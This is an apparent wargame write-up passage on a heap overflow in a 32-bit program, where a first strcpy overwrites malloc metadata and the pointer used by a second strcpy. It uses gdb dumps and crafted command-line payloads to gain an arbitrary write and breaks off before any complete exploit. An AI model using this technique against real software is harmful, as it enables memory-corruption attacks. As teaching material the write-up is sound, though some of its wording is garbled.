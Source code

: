 The 1st line is the first allocation,

`0x804a008:      [0x00000001]      0x0804a018      0x00000000      0x00000011`

we can see the first byte is equals to `1`,

`0x804a008:      0x00000001      [0x0804a018]      0x00000000      0x00000011`

the next one to the address of the 2nd allocation where the strcpy writes,

`0x804a008:      0x00000001      0x0804a018      [[0x00000000]      [0x0000001][1]]`

and the 2 last bytes are the structure used by malloc for the next allocation, the 1st is for the alignement of the structure, and the 2th contains a `status` bit (lowest weight) set to 1 to indicate the allocation isn't free, and the rest are the size of the structure (16).

- Most importantly, we can see the `strcpy` writes over structures used by malloc

- And the 2nd strcpy makes the program segfault by trying to write on *0x41414141

```bash
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8b59 in ?? () from /lib/i386-linux-gnu/libc.so.6
```

- The address the second strcpy writes to is defined at 0x41414141, so we can write to any address the content of av[2] if we pass in av[1] (0x804a038 – 0x804a018 = 0x20 / 32) bytes and the address 

Let's do a quick test:

```bash
(gdb) b *main+132

(gdb) r $(python -c 'print "A"*8') $(python -c 'print "B"*4')
Breakpoint 1, 0x080485a5 in main ()

(gdb) x/100x 0x804a008
0x804a008:      0x00000001      0x0804a018      0x00000000      0x00000011
0x804a018:      0x41414141      0x41414141      0x00000000      0x00000011
0x804a028:      0x00000002      0x0804a038      0x00000000      0x00000011
0x804a038:      0x00000000      0x00000000      0x00000000      0x00020fc1
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
...

(gdb) b *main+161

(gdb) r $(python -c 'print "A"*16')$(echo -n -e '\x01\x01\x01\x02')$(echo -n -e '\x38\xa0\x04\x08') $(python -c 'print "B"*4')
Breakpoint 1, 0x080485a5 in main ()

(gdb) continue
Continuing.

Breakpoint 2, 0x080485c2 in main ()

(gdb) x/100x 0x804a008
0x804a008:      0x00000001      0x0804a018      0x00000000      0x00000011
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x02010101      0x0804a038      0x00000000      0x00000011
0x804a038:      0x42424242      0x00000000      0x00000000      0x00020fc1
...

(gdb) r $(python -c 'print "A"*16')$(echo -n -e '\x01\x01\x01\x02')$(echo -n -e '\x48\xa0\x04\x08') $(python -c 'print "B"*4')

Breakpoint 1, 0x080485a5 in main ()
```